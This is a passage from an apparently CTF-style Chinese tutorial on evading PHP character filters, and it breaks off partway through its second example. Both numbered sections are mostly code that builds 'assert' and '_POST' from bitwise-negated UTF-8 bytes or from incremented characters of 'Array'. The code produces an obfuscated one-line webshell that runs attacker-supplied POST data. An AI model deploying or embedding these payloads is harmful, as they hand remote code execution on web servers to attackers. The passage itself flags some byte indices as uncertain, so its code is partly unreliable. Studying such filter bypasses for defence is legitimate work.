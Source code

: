 2.  **按位取反绕过 (使用 UTF-8):**
    * 与 Level 10 类似，对多字节 UTF-8 字符使用 `~` 来生成函数名和变量所需的 ASCII 字符。需要已知的映射或反复试验。
    ```php
    <?php
    // 目标: assert($_POST[_]); 仅使用运算符、数字、下划线和 UTF-8 字符串。
    $__=('>'>'<')+('>'>'<'); // $__ = 1+1 = 2
    $_=$__/$__; // $_ = 2/2 = 1
    $____=''; // $____ = ""
    $___="瞰";$____.=~($___{$_}); // $____ .= ~("瞰"[1]) -> 'a'
    $___="和";$____.=~($___{$__}); // $____ .= ~("和"[2]) -> 's' // 索引可能因编码/PHP版本而异
    $___="和";$____.=~($___{$__}); // $____ .= ~("和"[2]) -> 's'
    $___="的";$____.=~($___{$_}); // $____ .= ~("的"[1]) -> 'e'
    $___="半";$____.=~($___{$_}); // $____ .= ~("半"[1]) -> 'r'
    $___="始";$____.=~($___{$__}); // $____ .= ~("始"[2]) -> 't'
    // $____ 现在是 "assert"
    $_____='_'; // $____ = "_"
    $___="俯";$_____.=~($___{$__}); // $_____.= ~("俯"[2]) -> 'P'
    $___="瞰";$_____.=~($___{$__}); // $_____.= ~("瞰"[2]) -> 'O'
    $___="次";$_____.=~($___{$_}); // $_____.= ~("次"[1]) -> 'S'
    $___="站";$_____.=~($___{$_}); // $_____.= ~("站"[1]) -> 'T'
    // $_____ 现在是 "_POST"
    $_=$$_____; // $_ = $_POST (可变变量)
    $____($_[$__]); // assert($_POST[2])
    ?>
    ```

3.  **自增/自减绕过 (修正示例):**
    * 使用数组到字符串的转换 (`[].''` -> `"Array"`) 和布尔/整数索引 (`[0]` -> `'A'`, `[1]` -> `'r'`) 结合 `++` 来逐个字符地构建字符串。
    ```php
    <?php
    // 目标: ASSERT($_POST[_]);
    $_=[].'';           // $_ = "Array" (字符串)
    $__ = !$_;          // $__ = False (布尔值) - 索引 0
    $___ = $_[$__];      // $___ = $_[0] = "A"
    $__ = $___;          // $__ = "A"
    $_ = $___;           // $_ = "A"

    // 创建 'S'
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // $__ = "S"
    $___ .= $__;         // $___ = "AS"
    $___ .= $__;         // $___ = "ASS"

    // 创建 'E'
    $__ = $_;            // $__ = "A"
    $__++;$__++;$__++;$__++; // $__ = "E"
    $___ .= $__;         // $___ = "ASSE"

    // 创建 'R'
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // $__ = "R" (注意: 原文在 ++ 前有分号?)
    $___ .= $__;         // $___ = "ASSER"
